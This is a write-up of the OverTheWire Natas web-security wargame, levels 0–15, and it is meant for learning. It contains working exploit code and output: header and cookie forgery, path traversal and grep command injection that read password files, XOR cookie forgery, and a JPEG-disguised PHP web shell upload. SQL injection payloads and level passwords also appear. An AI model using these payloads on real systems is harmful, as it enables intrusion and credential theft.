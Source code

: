 #+TITLE: Natas (OverTheWire)
#+AUTHOR: Bryan Rinders
#+DATE: 2022-10-16

* Introduction
This is a writeup for the [[https://overthewire.org/wargames/][overthewire.org]] war game Natas. To start a level 
visit the URL http://natasX.natas.labs.overthewire.org, and login with 
username: natasX and the password found in the previous level, where X is the 
level number. 
All passwords for the next level are also stored in
/etc/natas_webpass/natasX, where X is the number of the level.

* Level 0
View the source page and find the password:

#+BEGIN_SRC sh
curl -u natas0:natas0 "http://natas0.natas.labs.overthewire.org/" | grep natas1
#+END_SRC

#+RESULTS:
: <!--The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto -->

Result:
#+BEGIN_SRC 
: <!--The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto -->
#+END_SRC

* Level 1
View the source page by using a short cut key (for me <C-u>, Ctrl+u):

#+BEGIN_SRC sh
curl -u natas1:gtVrDuiDfck831PqWsLEZy5gyDz1clto  "http://natas1.natas.labs.overthewire.org/" | grep natas2
#+END_SRC

#+RESULTS:
: <!--The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi -->

Result:
#+BEGIN_SRC 
: <!--The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi -->
#+END_SRC

* Level 2
Again view the source page. There is a line with a link to an image 

#+BEGIN_SRC 
<img src="files/pixel.png">
#+END_SRC

This links to "http://natas2.natas.labs.overthewire.org/files/pixel.png", note 
the /files/pixels.png. Which means it might be possible to explorer the files 
'files' directory. Exploring "http://natas2.natas.labs.overthewire.org/files/" 
it shows that there it another file called 'users.txt' which contains the 
password for the next level.

#+BEGIN_SRC sh
curl -u natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi "http://natas2.natas.labs.overthewire.org/files/users.txt" | grep natas3
#+END_SRC

#+RESULTS:
: natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

Result:
#+BEGIN_SRC 
: natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
#+END_SRC

* Level 3
View the source and find the line

#+BEGIN_SRC 
<!-- No more information leaks!! Not even Google will find it this time... -->
#+END_SRC

which hints at the 'robots.txt' file that contains the directories webcrawlers are not supossed to visit. From the 'robots.txt' we get the directory '/s3cr3t/' which contains the 'users.txt' file with the password for natas4.

#+BEGIN_SRC sh
curl -u natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 "http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt" | grep natas4
#+END_SRC

#+RESULTS:
: natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

Result:
#+BEGIN_SRC 
: natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
#+END_SRC

* Level 4
To get access to the password we need to come from the natas5 website as is 
metioned on the website when first loging in. 
#+BEGIN_SRC 
Access disallowed. You are visiting from "" while authorized users should come 
only from "http://natas5.natas.labs.overthewire.org/"
#+END_SRC
It is possible to simulate this by setting the referer in the header of the get
request to the natas5 website.

First define a function that can find the password in the raw html text:

#+NAME: 373e98c9-ce75-4f43-921a-289dfacae023
#+BEGIN_SRC ein-python :session :async :results output 
def find_pswd(text):
    # find the line with the password in the html text
    lines = text.split('\n')
    bools = list(map(lambda x : "password" in x, lines))
    for (b,line) in zip(bools,lines):
        if b:
            return line
#+END_SRC

#+RESULTS: 373e98c9-ce75-4f43-921a-289dfacae023

Now the code that change the referer to natas5:

#+NAME: c24a72b1-d2b5-4377-8762-815c67a7d6cd
#+BEGIN_SRC ein-python :session :async :results output 
# The code is written in python
import requests
from requests.auth import HTTPBasicAuth

user = "natas4"
pswd = "Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ"
url = "http://natas4.natas.labs.overthewire.org/"
headers = {'referer': 'http://natas5.natas.labs.overthewire.org/'}

# get request with the referer set to natas5
r = requests.get(url, headers=headers, auth=HTTPBasicAuth(user,pswd))

print(find_pswd(r.text))
#+END_SRC

#+RESULTS: c24a72b1-d2b5-4377-8762-815c67a7d6cd
: Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

Result:
#+BEGIN_SRC 
: Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
#+END_SRC

* Level 5
After logging in the web page shows:

#+BEGIN_SRC 
Access disallowed. You are not logged in
#+END_SRC

Lets inspect the headers to see what is happening

#+NAME: 575ee3fe-cc0f-4b76-bf91-927f3fe97c0c
#+BEGIN_SRC ein-python :session :async :results output
# The code is written in python
import requests
from requests.auth import HTTPBasicAuth

user = "natas5"
pswd = "iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq"
url = "http://natas5.natas.labs.overthewire.org/"

r = requests.get(url, auth=HTTPBasicAuth(user,pswd))
print(r.headers)
#+END_SRC

#+RESULTS: 575ee3fe-cc0f-4b76-bf91-927f3fe97c0c
: {'Date': 'Sat, 05 Mar 2022 14:18:12 GMT', 'Server': 'Apache/2.4.10 (Debian)', 'Set-Cookie': 'loggedin=0', 'Vary': 'Accept-Encoding', 'Content-Encoding': 'gzip', 'Content-Length': '367', 'Keep-Alive': 'timeout=5, max=100', 'Connection': 'Keep-Alive', 'Content-Type': 'text/html; charset=UTF-8'}

Result:
#+BEGIN_SRC 
: {'Date': 'Sat, 05 Mar 2022 10:28:27 GMT', 'Server': 'Apache/2.4.10 (Debian)', 'Set-Cookie': 'loggedin=0', 'Vary': 'Accept-Encoding', 'Content-Encoding': 'gzip', 'Content-Length': '367', 'Keep-Alive': 'timeout=5, max=100', 'Connection': 'Keep-Alive', 'Content-Type': 'text/html; charset=UTF-8'}
#+END_SRC

The output show that the the Set-cookie loggedin=0, if that is changed to 
loggedin=1 then that should give access to the password.

#+NAME: 35846085-d24d-4f0a-beb1-6538bb4b9471
#+BEGIN_SRC ein-python :session :async :results output
cookies = {'loggedin': '1'}

# get request with the cookie set loggedin=1
r = requests.get(url, cookies=cookies, auth=HTTPBasicAuth(user,pswd))

# find the line with the password in it
print(find_pswd(r.text))
#+END_SRC

#+RESULTS: 35846085-d24d-4f0a-beb1-6538bb4b9471
: Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1</div>

Result:
#+BEGIN_SRC 
: Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1</div>
#+END_SRC

* Level 6
After logging in we are prompted to input a secret. The source contains the line:
#+BEGIN_SRC 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
#+END_SRC
Then going to the url view-source:http://natas6.natas.labs.overthewire.org/index-source.html contains:
#+BEGIN_SRC 
include "includes/secret.inc";
#+END_SRC
follow this to the url http://natas6.natas.labs.overthewire.org/includes/secret.inc, which reveals the secret: "FOEIUWGHFEEUHOFUOIU"

#+NAME: 357e147d-fa57-479d-bffb-c2131c2736b1
#+BEGIN_SRC ein-python :session :async :results output
user = "natas6"
pswd = "aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1"
url = "http://natas6.natas.labs.overthewire.org/"
post_data = {"secret": "FOEIUWGHFEEUHOFUOIU", "submit": "submit"}

# get request with the referer set to natas5
r = requests.post(url, auth=HTTPBasicAuth(user,pswd), data=post_data)

print(find_pswd(r.text))
#+END_SRC

#+RESULTS: 357e147d-fa57-479d-bffb-c2131c2736b1
: Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

Result:
#+BEGIN_SRC 
: Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
#+END_SRC

* Level 7
The source page says:
#+BEGIN_SRC 
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
#+END_SRC

and there are two links for 'Home' and 'About', 'index.php?page=Home' and 'index.php?page=About respectively. Changing either 'Home' or 'About' with the path to the password file will give access to the password, i.e. =/index.php?page=/etc/natas_webpass/natas8=.

#+NAME: 357e147d-fa57-479d-bffb-c2131c2736b1
#+BEGIN_SRC ein-python :session :async :results output
user = "natas7"
pswd = "7z3hEENjQtflzgnT29q7wAvMNfZdh0i9"
url = "http://natas7.natas.labs.overthewire.org/"
location = "/index.php?page=/etc/natas_webpass/natas8"

# get request with the referer set to natas5
r = requests.post(url+location, auth=HTTPBasicAuth(user,pswd))

print(r.text.split('\n')[-7])
#+END_SRC

Result:
#+BEGIN_SRC 
: DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
#+END_SRC

* Level 8
The source page again has a link to:
#+BEGIN_SRC 
index-source.html
#+END_SRC
which reveals an encoded secret:
#+BEGIN_SRC 
3d3d516343746d4d6d6c315669563362
#+END_SRC
it is encoded with this function:
#+BEGIN_SRC 
function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}
#+END_SRC
All we need to do is reverse this function on the given encoded secret:
#+NAME: b1f4b49f-258f-4796-97f0-04354b76dbc7
#+BEGIN_SRC ein-python :session :async :results output
import base64

secret = "3d3d516343746d4d6d6c315669563362"
# convert hex to binary
binary_secret = bin(int(secret, 16))
# convert the bits to a string of chars
char_secret = ''.join(chr(int(binary_secret[i*8:i*8+8],2)) for i in range(len(binary_secret)//8))
# reverse the string
reverse_secret  = char_secret[::-1]
# base64 decode the string
#decoded_secret = base64.b64decode(reverse_secret.encode("ascii")).decode("ascii")
decoded_secret = base64.b64decode(reverse_secret).decode("ascii")
print("The decoded secret is: " + decoded_secret)
#+END_SRC

#+RESULTS: b1f4b49f-258f-4796-97f0-04354b76dbc7
: The decoded secret is: oubWYf2kBq

Result:
#+BEGIN_SRC 
: The decoded secret is: oubWYf2kBq
#+END_SRC

Now we can POST the secret to get the password.

#+NAME: ffed605a-7f2d-476f-916f-4274eeb93861
#+BEGIN_SRC ein-python :session :async :results output
user = "natas8"
pswd = "DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe"
url = "http://natas8.natas.labs.overthewire.org/"
post_data = {"secret": "oubWYf2kBq", "submit": "submit"}

# get request with the referer set to natas5
r = requests.post(url, auth=HTTPBasicAuth(user,pswd), data=post_data)

print(find_pswd(r.text))
#+END_SRC

#+RESULTS: ffed605a-7f2d-476f-916f-4274eeb93861
: Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

Result:
#+BEGIN_SRC 
: Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
#+END_SRC

* Level 9
On the site there is a search box that searches for words. Trying out some words in the search box shows that it actual does find all words containing the searched string. Inspecting the source reveals this piece of code:

#+BEGIN_SRC 
if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
#+END_SRC

So it is using grep to find results from 'dictionary.txt', but grep allows for multiple input files to search in and so if we input an extra file into the search box then it will search that file as well as 'dictionary.txt'. The file we want to include in the submit box is 'etc/natas_webpass/natas10', the file that holds the password for the next level.

#+NAME: 619000f1-8434-46c7-b266-93ffa3dce6c4
#+BEGIN_SRC ein-python :session :async :results output
import re

user = "natas9"
pswd = "W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl"
url = "http://natas9.natas.labs.overthewire.org/"
post_data = {"needle": "'' /etc/natas_webpass/natas10", "submit": "submit"}

# get request with the referer set to natas5
r = requests.post(url, auth=HTTPBasicAuth(user,pswd), data=post_data)

print(re.findall('/etc/natas_webpass/natas10:(.*)', r.text)[0])
#+END_SRC

#+RESULTS: 619000f1-8434-46c7-b266-93ffa3dce6c4
: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

Result:
#+BEGIN_SRC 
: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
#+END_SRC

* Level 10
This level is similar to the previous level but it checks if there are "illegal" characters in the input.

#+BEGIN_SRC 
if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
#+END_SRC

From the regular expression in 'preg_match' the illegal characters are ';' and '&'. Since those characters weren't used in the previous level it is possible to re-use the 'needle' from level 9.

#+NAME: 055fa6f2-0ca1-4a7b-8b10-11a489b8da05
#+BEGIN_SRC ein-python :session :async :results output
user = "natas10"
pswd = "nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu"
url = "http://natas10.natas.labs.overthewire.org/"
post_data = {"needle": "'' /etc/natas_webpass/natas11", "submit": "submit"}

# get request with the referer set to natas5
r = requests.post(url, auth=HTTPBasicAuth(user,pswd), data=post_data)

print(re.findall('/etc/natas_webpass/natas11:(.*)', r.text)[0])
#+END_SRC

#+RESULTS: 055fa6f2-0ca1-4a7b-8b10-11a489b8da05
: U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

Result:
#+BEGIN_SRC 
: U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
#+END_SRC

* Level 11
** Intro
From the source code, these are the most important functions/variables:

#+BEGIN_SRC 
$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
        $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

function saveData($d) {
    setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
}

#+END_SRC

The =xor_encrypt()= function simply encrypts the input with a censored key. And the =saveData()= creates a cookie from the =$defaultdata=. The first thing to do is get a cookie. With this cookie and the =defaultdata= it is possible to exploit a property of the xor function, namely: =plaintext ^ key = ciphertext= can be rewritten to solve for the key like =plaintext ^ ciphertext = key=. Hence we can find the key with ~plaintext = $defaultdata~ and ~ciphertext = cookie~.

** Get the cookie (cipher text)
So lets get a cookie:

#+NAME: 8381cf49-5198-44c0-b89b-106bfd562d88
#+BEGIN_SRC ein-python :session :async :results output
import requests
from requests.auth import HTTPBasicAuth
import re

user = "natas11"
pswd = "U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK"
url = "http://natas11.natas.labs.overthewire.org/"
data = {"bgcolor": "#000000", "submit": "Set color"}

# get request with the referer set to natas5
r = requests.post(url, auth=HTTPBasicAuth(user,pswd), data=data)

cookie = r.headers['Set-Cookie'][5:]
print(r.headers)
print(f'The cookie is: {cookie}')
#print(re.findall('/etc/natas_webpass/natas11:(.*)', r.text)[0])
#+END_SRC

#+RESULTS: 8381cf49-5198-44c0-b89b-106bfd562d88
: {'Date': 'Tue, 28 Jun 2022 08:45:37 GMT', 'Server': 'Apache/2.4.10 (Debian)', 'Set-Cookie': 'data=ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSRwh6QUcIaAw%3D', 'Vary': 'Accept-Encoding', 'Content-Encoding': 'gzip', 'Content-Length': '491', 'Keep-Alive': 'timeout=5, max=100', 'Connection': 'Keep-Alive', 'Content-Type': 'text/html; charset=UTF-8'}
: The cookie is: ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSRwh6QUcIaAw%3D

Results:
#+BEGIN_SRC 
: The cookie is: ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSRwh6QUcIaAw%3D
#+END_SRC

This cookie is url encode as can be seen by the %3D at the end. Lets decode it:

#+NAME: f2889434-8782-4bb9-84cb-47d9e28ff295
#+BEGIN_SRC ein-python :session :async :results output
from urllib.parse import unquote
import base64 

cookie = unquote(cookie)
print(f'The url decoded cookie is: {cookie}')
cookie = b64decode(cookie).hex()
print(f'The cookie/cipher text in hex is: {cookie}')

#+END_SRC

#+RESULTS: f2889434-8782-4bb9-84cb-47d9e28ff295
: The url decoded cookie is: ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSRwh6QUcIaAw=
: The base 64 decoded cookie in hex is:
: 0a554b221e00482b02044f2503131a70531957685d555a2d12185425035502685247087a414708680c

Results:
#+BEGIN_SRC 
: The url decoded cookie is: ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSRwh6QUcIaAw=
: The cookie/cipher text in hex is: 0a554b221e00482b02044f2503131a70531957685d555a2d12185425035502685247087a414708680c
#+END_SRC

** Get the plain text
Now to get the plaintext that is used in the =xor_encrypt()= the =savedata()= json_encode the =defaultdata= first. 

#+BEGIN_SRC 
// this is php code:
$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");
json_encode($defaultdata);
echo (json_encode($defaultdata));

#+END_SRC

Result:
#+BEGIN_SRC 
{"showpassword":"no","bgcolor":"#ffffff"}
#+END_SRC

** Find the encryption key
Now use the plain and cipher text in a slightly rewritten =xor_encrypt()= to find the key.

#+BEGIN_SRC 
// this is php code:
$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

function xor_encrypt($in, $key) {
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
        $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

$plain = json_encode($defaultdata);
$cipher = hex2bin('0a554b221e00482b02044f2503131a70531957685d555a2d12185425035502685247087a414708680c');

echo ('The key is: ' . xor_encrypt($plain, $cipher));

#+END_SRC

Result:
#+BEGIN_SRC 
The key is: qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq!n'!nJq
#+END_SRC

The is a pattern in the key which means that the key that was used is the substring =qw8J=.

** Get the password for natas12
To get the password change the =showpassword= value from the array =$defaultdata= to "yes". Then encrypt the array with the key =qw8J=. This will result in the value that should be send as the cookie and will give the password.

#+BEGIN_SRC 
// this is php code:
$defaultdata = array( "showpassword"=>"yes", "bgcolor"=>"#ffffff");

function xor_encrypt($in, $key) {
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
        $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

$plain = json_encode($defaultdata);
$key = 'qw8J';

echo ('The cipher text is: ' . base64_encode(xor_encrypt($plain, $key)));

#+END_SRC

Result:
#+BEGIN_SRC 
The cipher text is: ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK
#+END_SRC

Use the just computed cipher text as the cookie and send a get request with the cookie attached. This will show the password for Natas 12.

#+NAME: fbe86215-eff2-4f43-89ed-a2ed9936be6b
#+BEGIN_SRC ein-python :session :async :results output
import requests
from requests.auth import HTTPBasicAuth
import re

user = "natas11"
pswd = "U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK"
url = "http://natas11.natas.labs.overthewire.org/"
data = {"bgcolor": "#000000", "submit": "Set color"}
cookies = {'data': 'ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK'}

# get request with the referer set to natas5
r = requests.get(url, cookies=cookies, auth=HTTPBasicAuth(user,pswd))

print(re.findall('The password for natas12 is (.*)<br>', r.text)[0])

#+END_SRC

#+RESULTS: fbe86215-eff2-4f43-89ed-a2ed9936be6b
: EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

Result:
#+BEGIN_SRC 
: EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3
#+END_SRC

* Natas 12
The webpage asks for .jpg files to be uploaded. After uploading a picture a link is given to the location, =upload/<randomstring>.jpg=, of the uploaded file. I tried a few path traversal attacks, e.g. =/upload/../etc/natas_webpass/natas13=, but all failed. So maybe it is possible to upload some malicious php code instead of a jpg.

Create a php file called =evil.php= that contains:
#+BEGIN_SRC 
<?php echo (file_get_contents('/etc/natas_webpass/natas13')); ?>
#+END_SRC
This will print the password for natas13.

Now the python script that uploads =evil.php= to the website and gets the randon link to the uploaded file location, which should contain the password for natas13.

#+NAME: fe38f6a0-8603-4e69-a7a6-411de3b263eb
#+BEGIN_SRC ein-python :session :async :results output
import requests
from requests.auth import HTTPBasicAuth
import re

user = "natas12"
pswd = "EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3"
url = "http://natas12.natas.labs.overthewire.org/"

evil = {'uploadedfile': open('/home/br/Pictures/shots/evil.php', 'rb')}

# get request with the referer set to natas5
r = requests.post(url, auth=HTTPBasicAuth(user,pswd), files=evil, data={'filename': 'evil.php'})

path = re.findall('href="(upload/.*.php)">', r.text)[0]
print('The path to our uploaded file: ' + path + '\n')

r1 = requests.get(url+path, auth=HTTPBasicAuth(user,pswd))
print('The password for natas13: ' + r1.text)

#+END_SRC

#+RESULTS: fe38f6a0-8603-4e69-a7a6-411de3b263eb
: The path to our uploaded file: upload/tdxpbrtuna.php
: 
: The password for natas13: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
: 

#+BEGIN_SRC 
: The path to our uploaded file: upload/tdxpbrtuna.php
: 
: The password for natas13: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
#+END_SRC

* Natas 13
This level is similar to level 12 but it uses =exif_imagetype= to check if the file being uploaded is actually an image. It does this by checking the /magic number/ at the beginning of the file. So if we can insert this /magic number/ to the beginning of our php script than it will pass the =exif_imagetype= check will the server will execute the contents of the file. We will insert the /magic number/ by letting python write it to the file in bytes. The rest of the attack is very similar to level 12. The /magic number/ is =\xFF\xD8\xFF\xE0=.

#+NAME: 011b3929-4d37-4815-a3c2-d11cb3f20162
#+BEGIN_SRC ein-python :session :async :results output
  import requests
  from requests.auth import HTTPBasicAuth
  import re

  user = "natas13"
  pswd = "jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY"
  url = "http://natas13.natas.labs.overthewire.org/"
  
  # write the magic number and the to be executed php to evilFile
  evilFile = '/home/br/Pictures/shots/evil3.php'
  fh = open(evilFile, 'wb')
  fh.write(b'\xFF\xD8\xFF\xE0' + b'<? passthru($_GET["cmd"]); ?>')
  fh.close()

  evil = {'uploadedfile': open(evilFile, 'rb')}

  # Post the evilFile to the server
  r = requests.post(url, auth=HTTPBasicAuth(user,pswd), files=evil, data={'filename': 'evil3.php'})

  # print(r.text)

  path = re.findall('href="(upload/.*.php)">', r.text)[0]
  print(f'The path to our uploaded file: {path}\n')

  r1 = requests.get(url+path+'?cmd=cat /etc/natas_webpass/natas14', auth=HTTPBasicAuth(user,pswd))
  print(f'The password for natas13: {r1.text[4:]}')

#+END_SRC

#+RESULTS: 011b3929-4d37-4815-a3c2-d11cb3f20162
: The path to our uploaded file: upload/4ttajmtyw5.php
: 
: The password for natas13: Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
: 

Result:
#+BEGIN_SRC 
: The path to our uploaded file: upload/ijapb8ongh.php
: 
: The password for natas13: Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
#+END_SRC

* Natas 14
This level has a login form. The source code reveals the use of very simple sql queries, which means we could try some [[https://en.wikipedia.org/wiki/SQL_injection#Incorrectly_constructed_SQL_statements][sql injections]]. The very first try immediately worked, supplying ~" or 1=1 --~ for both the username and the password.

#+NAME: 52c020c6-6a93-4f1e-8734-95d5f747a7fa
#+BEGIN_SRC ein-python :session :async :results output
  import requests
  from requests.auth import HTTPBasicAuth
  import re

  user = "natas14"
  pswd = "Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1"
  url = "http://natas14.natas.labs.overthewire.org/"
  data = {'username': '" or 1=1 --', 'password': '" or 1=1 --'}

  r = requests.post(url, auth=HTTPBasicAuth(user,pswd), data=data)

  # print(r.text)

  print(re.findall('password for natas15 is (.*)<br>', r.text)[0])

#+END_SRC

#+RESULTS: 52c020c6-6a93-4f1e-8734-95d5f747a7fa
: AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

Result:
#+BEGIN_SRC 
: AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J
#+END_SRC

* Natas 15

#+BEGIN_SRC ein-python :session :async :results output
  import requests
  from requests.auth import HTTPBasicAuth
  import re

  user = "natas15"
  pswd = "AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J"
  url = "http://natas15.natas.labs.overthewire.org/"
  data = {'username': '" or 1=1 --', 'password': '" or 1=1 --'}

  r = requests.post(url, auth=HTTPBasicAuth(user,pswd), data=data)

  print(r.text)

  # print(re.findall('password for natas15 is (.*)<br>', r.text)[0])

#+END_SRC


#+BEGIN_SRC ein-python :session :async :results output


#+END_SRC
